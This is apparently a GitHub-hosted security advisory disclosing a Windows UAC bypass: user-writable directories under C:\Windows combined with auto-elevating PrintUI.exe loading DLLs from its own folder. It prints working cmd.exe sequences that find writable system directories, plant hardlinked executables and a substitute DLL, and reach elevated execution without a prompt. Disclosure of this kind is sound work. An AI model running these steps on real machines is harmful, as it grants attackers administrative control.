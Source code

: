 # Microsoft-Windows-UAC-Privilege-Escalation
Microsoft Windows can dupe users into trusting executables with DLL hijacking and privilege escalation issues

Hi @ll,

Microsoft still ships Windows with and lets it create user-writable
directories below the "Windows" directory %SystemRoot%\ -- despite
that, with exception of %SystemRoot%\Temp\, they are all used to
store DATA and SHOULD have been placed below %ProgramData% alias
%SystemDrive%\ProgramData\ instead!

JFTR: %ProgramData% was introduced with Windows Vista more than 15
      (in words: FIFTEEN) years ago, but Microsoft obviously just
      doesn't care to cleanup their mess.

Authenticode signature verification, for example required to color the
UAC prompt yellow (untrusted) or blue (trusted) and as precondition
for the "auto-elevation" (mis)feature of some 63+ applications shipped
with Windows 7 and ALL later versions, doesn't care about the filename
of an executable, but (eventually) evaluates the pathname of the
(application) directory.


Put together these two weaknesses allow to run arbitrary code WITH
administrative rights in several (user-writable) directories below
C:\Windows: in the account created during Windows setup without UAC
prompt, in (unprivileged) standard user accounts with (blue) UAC prompt!

### CVSS 3.0 score: 8.2 (High)
### CVSS 3.0 vector: 3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H


# Demonstration
  ~~~~~~~~~~~~~

1. Log on to an arbitrary unprivileged (standard) user account and start
   the command processor, then run the following command lines to detect
   the user-writable directories below %SystemRoot%\ through creation of
   a hardlink named WRITABLE.EXE and collect their pathnames in the file
   %ProgramData%\WRITABLE.LOG:
   
```
   COPY /Y NUL: "%ProgramData%\WRITABLE.LOG" && (
   DIR "%SystemRoot%" /A:D /B /S 1>"%ProgramData%\WRITABLE.TMP" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO @(
   MKLINK /H "%~?\WRITABLE.EXE" "%ProgramData%\WRITABLE.LOG" 2>NUL: && 1>>"%ProgramData%\WRITABLE.LOG" ECHO %~?))
   TYPE "%ProgramData%\WRITABLE.LOG")
```   

   On fresh installations of Windows 10 2004/20H1/20H2 for AMD64 alias
   x64 processors this yields the following pathnames:

```
   C:\Windows\Tasks
   C:\Windows\Temp
   C:\Windows\tracing
   C:\Windows\Registration\CRMLog
   C:\Windows\System32\FxsTmp
   C:\Windows\System32\Tasks
   C:\Windows\System32\Com\dmp
   C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
   C:\Windows\System32\spool\PRINTERS
   C:\Windows\System32\spool\SERVERS
   C:\Windows\System32\spool\drivers\color
   C:\Windows\SysWOW64\FxsTmp
   C:\Windows\SysWOW64\Tasks
   C:\Windows\SysWOW64\Com\dmp
```   

   On installations which were upgraded to (any version of) Windows 10,
   the following additional pathname is typically listed:
   
```
   C:\Windows\System32\Tasks_Migrated
```   

   On installations which have been used for some time, the following
   additional pathnames are typically listed:
   
```
   C:\Windows\debug\WIA
   C:\Windows\PLA\Reports
   C:\Windows\PLA\Rules
   C:\Windows\PLA\Templates
   C:\Windows\PLA\Reports\de-DE
   C:\Windows\PLA\Reports\en-GB
   C:\Windows\PLA\Reports\en-US
   ...
   C:\Windows\PLA\Reports\ru-RU
   C:\Windows\PLA\Rules\de-DE
   C:\Windows\PLA\Rules\en-GB
   C:\Windows\PLA\Rules\en-US
   ...
   C:\Windows\PLA\Rules\ru-RU
   C:\Windows\System32\catroot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}
   C:\Windows\System32\LogFiles\WMI
```

2. Let's see whether the hardlinks WRITABLE.EXE can be (ab)used: copy an
   arbitrary executable to all of them and execute it.

   JFTR: PrintUI.exe is one of the 63+ applications which have UAC auto-
         elevation enabled.
       
```
   SETLOCAL ENABLEDELAYEDEXPANSION
   COPY /Y "%ProgramData%\WRITABLE.LOG" "%ProgramData%\WRITABLE.TMP" && (
   COPY /Y "%SystemRoot%\System32\PrintUI.exe" "%ProgramData%\WRITABLE.LOG" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!)))
```   

   In unprivileged (standard) user accounts this triggers an UAC prompt
   for each file executed, some yellow, showing "Publisher: Unknown",
   some blue showing "Verified Publisher: Microsoft Windows".

   After giving consent to the UAC prompt a dialog box showing usage
   instructions for PrintUI.dll is displayed, indicating that (the copy
   of) PrintUI.exe loads PrintUI.dll:
   
```
   | Usage: rundll32 printui.dll,PrintUIEntry [options] [@commandfile]
```   

   JFTR: since PrintUI.exe runs elevated, PrintUI.dll runs elevated too!


3. Let's verify the Authenticode signature of the copy of PrintUI.exe:

```
   SignTool.exe VERIFY /A /V "%ProgramData%\WRITABLE.LOG"

   | Verifying: C:\ProgramData\WRITABLE.LOG
   | File is signed in catalog: C:\Windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\ntexe.cat
   ...
   | Successfully verified: C:\ProgramData\WRITABLE.LOG
   ...
```

   Authenticode doesn't care about the path/filename of signed executables,
   even for files with detached signatures, although the *.CAT files used
   to distribute detached digital signatures can store the filename!


4. Let's see whether PrintUI.exe follows the guidance given by the MSRC
   (Microsoft Security Response Center) in the almost 7 year old blog post
   <https://blogs.technet.microsoft.com/srd/2014/05/13/load-library-safely/>.
   the more than 10 year old security advisory
   <https://technet.microsoft.com/en-us/library/2269637.aspx>, or the nearly
   10 year old MSKB articles <https://support.microsoft.com/en-us/kb/2389418>
   and <https://support.microsoft.com/en-us/kb/2533623>: copy ShUnimpl.dll
   as PrintUI.dll next to the copy of PrintUI.exe and execute the latter.

   JFTR: ShUnimpl.dll is the graveyard for obsolete "shell" functions; its
         _DllMainCRTStartup() entry point function returns FALSE to disable
         their use, lets the module loader fail with NTSTATUS 0xC0000142
         alias STATUS_DLL_INIT_FAILED, and lets LoadLibrary() fail with the
         Win32 error 1114 alias ERROR_DLL_INIT_FAILED

```
   COPY "%SystemRoot%\System32\ShUnimpl.dll" "%ProgramData%\PrintUI.dll"
   RENAME "%ProgramData%\WRITABLE.LOG" PrintUI.exe
   START "" /WAIT "%ProgramData%\PrintUI.exe"
   CERTUTIL.exe /ERROR %ERRORLEVEL%
```

   OUCH: (the copy of) PrintUI.exe loads an arbitrary PrintUI.dll from its
         application directory instead of %SystemRoot%\System32\PrintUI.dll

   The Common Weaknesses and Exposures classifies such misbehavior, which
   results in arbitrary code execution (here with escalation of privilege),
   as
   - CWE-426: Untrusted Search Path
     <https://cwe.mitre.org/data/definitions/426.html>
   - CWE-427: Uncontrolled Search Path Element
     <https://cwe.mitre.org/data/definitions/427.html>

   The Common Attack Pattern Enumeration and Classification lists it as
   - CAPEC-471: Search Order Hijacking
     <https://capec.mitre.org/data/definitions/471.html>

   JFTR: (un)fortunately PrintUI.dll is not the only DLL that PrintUI.exe
         loads from an unsafe path, and (un)fortunately PrintUI.exe is not
         the only auto-elevating application which loads DLLs from unsafe
         paths!

   A really big "Hooray!" to Microsoft's sloppy, careless and clueless
   developers as well as their sound asleep quality^Wmiserability assurance!


5. Let's see whether UAC auto-elevation is also possible in at least one
   of the user-writable directories: log on to the UAC-controlled user
   account created during Windows setup, start an UNELEVATED (unprivileged)
   command prompt and run the following command lines:

```
   SETLOCAL ENABLEDELAYEDEXPANSION
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   MKLINK /H "%~?\PrintUI.dll" "%ProgramData%\PrintUI.dll" && (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!))

```

   BINGO: GAME OVER!

   UAC performs auto-elevation at least in the directories
   C:\Windows\System32\CatRoot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}\
   and C:\Windows\System32\Tasks_Migrated\; a copy of PrintUI.exe run in
   these directories loads/executes an arbitrary PrintUI.dll placed there
   too, with ADMINISTRATIVE privileges, without UAC prompt.

   JFTR: even without UAC auto-elevation, this beginner's error present in
         PrintUI.exe (really: almost all applications shipped with Windows)
         allows to fool Jane and Joe Average who typically give consent to a
         blue UAC prompt which shows "Certified Publisher: Microsoft Windows".

